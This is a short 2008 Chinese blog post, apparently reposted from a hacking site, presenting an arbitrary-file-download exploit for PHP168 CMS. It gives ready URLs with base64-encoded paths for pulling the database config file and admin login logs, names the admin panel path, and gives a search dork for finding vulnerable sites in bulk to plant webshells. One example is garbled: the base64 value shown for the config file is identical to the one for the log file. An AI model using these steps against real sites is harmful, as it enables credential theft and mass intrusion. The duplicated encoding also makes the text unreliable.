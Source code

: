 ```yaml
---
title: PHP168整站系统0DAY
description: PHP168cms整站系统0day 先说明下是这个漏洞是在其他地方看到的，只是他没有说的很清楚，好多菜菜都不明白，我就拿这发我的第一个贴吧！这个漏洞其实就是利用了程序的编码漏洞，下载配置和登陆日志文件，以下是利用方法。
date: 2008-11-02 09:10:17
category: 漏洞信息
tags: ['PHP168', '0day']
post_id: 664
alias: PHP168-0day
ViewNums: 4534
---
```


**[PHP168 cms整站系统 0day](/blog/php168-0day)**

先说明下是这个[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)是在其他地方看到的，只是他没有说的很清楚，好多菜菜都不明白，我就拿这发我的第一个贴吧！
这个[漏洞](http://www.15897.com/category/6)其实就是利用了程序的编码漏洞，下载配置和登陆日志文件，以下是利用方法。

下载 mysql_config.php 和 adminlogin_logs.php 两个文件到本地。
http://dabei.org//job.php?job=download&url="aHR0cDovL2RhYmVpLm9yZy8vY2FjaGUvYWRtaW5sb2dpbl9sb2dzLnBocA=="
http://dabei.org//job.php?job=download&url="aHR0cDovL2RhYmVpLm9yZy8vY2FjaGUvYWRtaW5sb2dpbl9sb2dzLnBocA=="

程序后台：
http://dabei.org/admin/index.php?iframe=1

Base64加密代码：
http://dabei.org//cache/adminlogin_logs.php == "aHR0cDovL2RhYmVpLm9yZy8vY2FjaGUvYWRtaW5sb2dpbl9sb2dzLnBocA=="

(引号里面的是Base64加密后的)
http://dabei.org//php168/mysql_config.php == "aHR0cDovL2RhYmVpLm9yZy8vY2FjaGUvYWRtaW5sb2dpbl9sb2dzLnBocA=="

(引号里面的是Base64加密后的)

批量抓webshell：
google,baidu 输入关键字：Powered by PHP168

From: http://www.hack58.net/Article/html/3/62/2008/20875.htm


